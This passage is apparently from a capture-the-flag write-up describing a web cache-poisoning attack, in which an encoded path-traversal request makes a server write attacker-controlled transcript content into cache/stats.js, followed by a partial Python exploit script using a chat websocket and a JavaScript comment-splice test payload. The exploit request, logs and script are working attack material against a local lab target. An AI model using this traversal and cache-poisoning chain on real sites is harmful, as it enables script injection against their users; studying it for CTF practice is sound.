 As we control the `/transcript`, the idea here is to make the server write the content of `/transcript` to `cache/stats.js`. This is done by sending the payload:

**GET /static/stats.js/..%2f..%2ftranscript%23%2f..%2fcache%2fstats.js**
```shell
cache-1  | Requesting stats.js/../../transcript%23/../cache/stats.js
cache-1  | Writing to cache/stats.js with content of transcript
cache-1  | 172.19.0.5 - - [23/Apr/2025 06:26:02] "GET /static/stats.js/../../transcript%23/../cache/stats.js HTTP/1.0" 200 -
```

Explain:
1. The first part `/static/stats.js/../../transcript` is the same as the previous one, `/transcript` is the endpoint that we control and load the content from.
2. The important part is the urlencoded `#` character. This makes the `/../cache/stats.js` looks invisible but when we use `normpath`, it will be treated as a normal path. So the server will write the content of `/transcript` to `cache/stats.js`.

Now what we need to do is to craft a payload, send it as a command so it is reflected in the `/transcript` page. Let's first test with the `print()` function. This is the script:
```python
import requests
from websocket import create_connection
import time
import random
import string
from urllib.parse import quote

REMOTE = "localhost"
PORT = 8000
BASE_URL = f"http://{REMOTE}:{PORT}"
CHAT_WS_URL = f"ws://{REMOTE}:{PORT}/chat"

def generate_username(length=20):
    return ''.join(random.choices(string.ascii_lowercase, k=length))

session = requests.Session()

# Register with a random username
username = generate_username()
print(f"Username: {username}")
session.post(f"{BASE_URL}/register", data={"username": username})

# Get chat key
chat_key = session.post(f"{BASE_URL}/chatkey").text
print(f"Chat key: {chat_key}")

# Clear chat history
session.post(f"{BASE_URL}/clearchat")

# Connect to WebSocket chat
ws = create_connection(CHAT_WS_URL)
ws.send(chat_key)  # Authenticate with chat key

time.sleep(1)

ws.send("*/")

# Wait 16 to make sure we can posion the cache
time.sleep(16)

# Poison stats.js
payload = """=[0];
print();
/*"""
```